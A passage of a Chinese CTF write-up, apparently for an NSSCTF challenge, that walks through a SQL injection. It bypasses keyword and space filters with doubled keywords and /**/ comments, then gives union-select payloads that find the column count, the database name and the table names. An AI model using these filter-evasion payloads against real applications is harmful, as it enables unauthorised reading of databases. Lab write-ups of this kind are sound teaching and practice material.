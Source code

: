 发现or和空格被过滤，用双写or绕过，用/**/代替空格，--+也被过滤了，用#号带替--+

```
nss=1'/**/oorrder/**/by/**/3#
```

判断列数为3

查库

```
nss=-1'/**/uunionnion/**/select/**/1,database(),3#
```

![image-20250817114646115](./NSSCTF-6.assets/image-20250817114646115.png)

没有直接给库名，结果可能不在这页，用limit语句里限制查询结果数量

```
SELECT * FROM table_name LIMIT 偏移量, 数量;
```

```
nss=-1'/**/uunionnion/**/select/**/1,database(),3/**/limit/**/1,1#
```

![image-20250817123143813](./NSSCTF-6.assets/image-20250817123143813.png)

```
nss=-1'/**/uunionnion/**/select/**/1,group_concat(table_name),3/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema=database()/**/limit/**/1,1;#
```
